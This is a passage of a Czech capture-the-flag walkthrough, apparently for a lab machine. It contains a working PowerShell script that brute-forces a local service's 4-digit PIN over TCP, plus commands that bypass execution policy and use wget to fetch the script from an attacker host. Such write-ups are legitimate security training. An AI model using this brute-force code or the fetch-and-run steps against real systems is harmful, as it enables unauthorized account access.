 ```
```
`c:\windows\temp\nc.exe localhost 910`
```
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$]
```

### Rozlousknutí PINu
PowerShell skript brute.ps1 připravíme do stejné složky jako nc.exe
```powershell
[int] $Port = 910
$IP = "127.0.0.1"
$Address = [system.net.IPAddress]::Parse($IP) 
$End = New-Object System.Net.IPEndPoint $address, $port 
$Stype = [System.Net.Sockets.SocketType]::Stream
$Ptype = [System.Net.Sockets.ProtocolType]::TCP

For ($i=0; $i -le 1000; $i++) {
	$code = $i.ToString();
	$bytecode = [system.Text.Encoding]::ASCII.GetBytes($code.PadLeft(4,"0")+"`n")
	
	$Sock = New-Object System.Net.Sockets.Socket $stype, $ptype 
	$sock.Connect($end)
	Start-Sleep -Milliseconds 100
	
	$buf = new-object byte[] $Sock.Available
	$receive = $Sock.Receive($buf)
	
	$Sent = $Sock.Send($bytecode)
	Start-Sleep -Milliseconds 100
	
	$buf = new-object byte[] $Sock.Available
	$receive = $Sock.Receive($buf);
	if ($receive -gt 45){
		"PIN: {0}" -f [System.Text.Encoding]::ASCII.GetString($bytecode)
		return
	}
	
	$Sock.Close()
}
```
Spuštění skriptu:
```
PowerShell.exe -ExecutionPolicy Bypass
wget http://10.10.14.11:8000/brute.ps1 -outfile brute.ps1
.\brute.ps1
```
`PIN: 0021`
